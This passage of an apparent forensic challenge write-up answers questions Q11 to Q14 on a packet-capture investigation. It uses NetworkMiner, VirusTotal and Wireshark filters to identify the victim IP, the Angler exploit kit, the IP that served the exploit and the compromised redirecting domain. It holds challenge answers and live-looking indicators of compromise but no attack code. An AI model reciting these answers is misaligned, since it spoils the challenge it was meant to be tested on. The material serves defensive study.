


This relates back to `Patricia_Daniel_resume.doc`, so the originating email must be:


> → c42-MTA6-1422-UTC.eml


### Q11 What is the IP address of the victim machine? {#3487b0eb61a480b09be9f55adc258012}


As we analyzed in the previous question:


> 192.168.137.56


### Q12 What is the name of the exploit kit used to deliver the malware? (one word). {#3487b0eb61a480c695d3dd96289da302}


Diving into the files tab in NetworkMiner, i found some swf files:





I checked the hash on Virustotal:





The infamous Angler EK


> Angler


### Q13 Which IP address served the exploit? {#3487b0eb61a480149828ecbe43b54466}


We already got the answer while analyzing the previous questions. The ip which served the swf files: 





> 216.245.212.78


### Q14 What is the FQDN of the compromised website that redirected the victim to the attacker's server hosting the Exploit Kit? {#3487b0eb61a48013b168fef8338f5cab}


I used the filter: ip.addr == 216.245.212.78 && http and take a looked at the http.referer field:





I also used the filter `http.host contains "prideorganizer.com"` to find out if any other domain redirected to this website. It seems the user searched for it on Bing, indicating that it's the initially compromised website





> `prideorganizer.com`

